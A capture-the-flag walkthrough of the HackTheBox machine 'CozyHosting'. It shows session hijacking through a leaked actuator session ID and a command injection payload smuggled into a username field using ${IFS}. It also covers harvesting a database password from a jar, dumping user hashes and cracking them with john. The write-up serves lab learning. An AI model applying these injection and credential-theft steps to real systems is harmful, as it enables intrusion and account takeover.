- Machine Name: **CozyHosting**
- OS type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

HTTP means we are dealing with web server, let’s visit the site in browser



Hmm, it requires hostname, i’ll quickly edit the /etc/hosts file to add the cozyhosting.htb entry and reload the page


let’s start files/dir fuzzing using gobuster, i’ll use quickhits.txt from seclists

```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt
```



let’s run the feroxbuster to find any directories or files recursively

```bash
feroxbuster --url http://cozyhosting.htb
```



However the /admin page redirects to /login

let’s visit the /actuator 



env looks interesting to me let’s open the /actuator/env endpoint



the values of properties has been Hidden, after searching for this endpoint we found that newer versions of Boot spring Actuator hides values in /env endpoint, so deadend here

let’s visit the /actuator/session endpoint



possibly username - **kanderson,** but what is the hash? that is in key-value pair, this looks like JSESSIONID let’s check by putting this value into cookies

right click > inspect > storage tab go to cookies and add the value to JSESSIONID refresh the page we found that login button disappears, let’s visit the /admin page now



visiting the /admin page





i entered the hostname → cozyhosting and username → admin, i got following error



after some trail/error i found the command injection in username field, use below payload to confirm hsotname → cozyhosting and username → admin;id



you see that the error shows up for the /bin/bash, i’ll use burpsuite to send the request 

now the problem is username is not accepting the whitespace, so uppon searching i found the ${IFS} variable 

> *In shell scripting, especially in Bash, `"${IFS}"` **represents the Internal Field Separator variable**. This variable defines the characters that are used to split a string into individual words or tokens. By default, IFS includes whitespace characters like space, tab, and newline.*
> 

so i’ll start tcpdump in my kali machine to capture ICMP traffic 

```bash
sudo tcpdump -i tun0 icmp -v
```

in username field use this payload - `test;ping${IFS}-c${IFS}1${IFS}10.10.14.17;#` i’ve added comment because it is appending @{hostname} after the username so the # will comment the rest of the command and it will not give us the error and command will successfully executed



after sending the request we received the ICMP echo request in tcpdump



### It’s Time for Shell - $SHELL



let’s get proper TTY shell using python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

got the shell but no user.txt in our user’s directory, we found /home/josh directory maybe another user on the machine and we need to get access as josh to get user.txt

let’s search user’s directory /app



it’s a jar file i’ll copy this file to /tmp and check it’s permissions to check if we have any interesting permissions



now i’ll check for the any internal service running on the machine using `ss -tunlp`



ok so the postgres is running internally, and what is on 8080 it is the cozyhosting site, let’s check the nginx conf file to see what is actually it’s doing



Yes so it is passing proxy to the internal port 8080 and so it’s the same web app which is available on port 80

i tried to connect to postgres using it’s default creds - `postgres:postgres` 



but no LUCK in that!

now let’s unzip the cloudhosting-0.0.1.jar in /tmp and grep for password using

```bash
grep -iR password
```



we found password in [application.properties](http://application.properties) file, let’s search for this file The application.properties file is ***used to define application-related properties** it is the conf file that may contains the sensitive info such as usernames and passwords, let’s read it* 

```bash
cat BOOT-INF/classes/application.properties
```



let’s note this credentials `postgres:Vg&nvzAQ7XxR` 

now we have the credentials let’s connect to postgresql using `psql` command

```bash
psql -h 127.0.0.1 -U postgres -W
```



we can list databases in postgresql using `\l` command



if we want to use/connect to specific database i.e. cozyhosting in this case we can use `\c <db-name>` 



after connecting to database we can list tables using `\dt` 



so there are two tables users and hosts, users seems interesting to me, to select the data from table we can use select query

```bash
SELECT * FROM users;
```



i’ll copy admin’s hash to kali and use john to crack it 



```bash
john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

